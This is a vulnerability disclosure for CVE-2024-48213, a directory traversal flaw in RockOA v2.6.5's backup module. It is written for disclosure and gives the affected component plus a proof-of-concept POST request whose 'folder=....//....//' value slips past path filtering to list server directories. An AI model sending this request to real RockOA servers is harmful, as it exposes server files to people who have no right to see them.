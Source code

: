 # [CVE-ID]
CVE-2024-48213

# [DESCRIPTION]
RockOA v2.6.5 is vulnerable to Directory Traversal in `webmain/system/beifen/beifenAction.php`.

# [Vulnerability Type]
Directory Traversal

# [Vendor of Product]
http://www.rockoa.com/

# [Affected Product Code Base]
rockoa v2.6.5 - rockoa v2.6.5

# [Affected Component]
`webmain/system/beifen/beifenAction.php # beifenClassAction # getdatssssAjax()`

# [Attack Type]
Remote

# [Impact Information Disclosure]
True

# [CVE Impact Other]
Listing directory

# [Attack Vectors]
Login first,
then:

POST /index.php?a=getdatssss&m=beifen&d=system&ajaxbool=true
folder=....//....//

# [Discoverer]
https://github.com/N0zoM1z0/

# [Reference]
http://rockoa.com

http://www.rockoa.com/
